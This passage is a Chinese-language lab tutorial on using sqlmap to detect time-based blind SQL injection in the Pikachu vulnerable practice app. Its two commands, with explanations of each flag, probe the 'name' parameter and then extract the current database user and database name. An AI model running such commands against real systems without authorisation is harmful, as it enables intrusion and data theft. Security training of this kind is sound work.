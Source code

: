 使用sqlmap对注入检测（pikachu)

```sql
sqlmap -u "http://d19.s.iproute.cn/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name -v 1 --technique=T
```

-u 表示检测的url
-p 指定的检测参数
-v 显示调试模式
--technique=T 检测方法为时间注入

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675303680797-333d505a-b46c-4959-918c-8410e61f20e3.png)

sqlmap 检测为时间注入，接下来通过这个注入获取数据库敏感信息。

```sql
sqlmap -u "http://d19.s.iproute.cn/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name -v 1 --technique=T --current-user --current-db --batch
```

--current-user 获取用户
--current-db 获取数据库名
--batch 使用默认模式 就是自动帮你敲回车
